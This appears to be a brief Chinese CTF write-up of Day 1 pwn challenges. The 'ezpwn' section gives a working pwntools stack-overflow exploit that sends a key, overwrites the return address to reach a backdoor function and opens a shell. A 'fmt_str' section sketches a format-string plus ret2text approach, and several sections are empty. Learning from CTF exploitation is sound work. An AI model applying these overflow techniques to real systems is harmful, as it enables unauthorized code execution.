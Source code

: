CrazyCat PWN

# Day1
## ezpwn
![[Pasted image 20250210232353.png]]
输入的值与DAT_00405068一样后便可以栈溢出。
![[Pasted image 20250210232500.png]]
答案是年度最佳astrobot。
![[Pasted image 20250210232539.png]]
可以找到backdoors，构造payload即可。
exp:
```python
from pwn import *

from wstube import websocket

  

context(arch='amd64', os='linux', log_level='debug')

local = True

if local:

p = process('./ezpwn')

else:

p = websocket('ws://ctf.miaoaixuan.cn/api/proxy/0194eda1-f812-771e-9167-d804f8f8a76f')

  

ret = 0x40101a

backdoors = 0x401539

key = b'astrobot'

p.recvuntil(b'\x21\x0a')

p.send(key)

p.recvuntil(b'something:')

payload = b'A' * 0x58 + p64(ret) + p64(backdoors)

p.sendline(payload)

p.interactive()
```
shell:
![[Pasted image 20250210232813.png]]
## fmt_str
有backdoor
![[Pasted image 20250210232848.png]]
有两个有用的函数，第一个当地址为0x404068的值为0x56785678时便可以进入第二步，第二步则是简单的ret2text。
exp:
```python

```
## shellcode

## walt改造的编译器
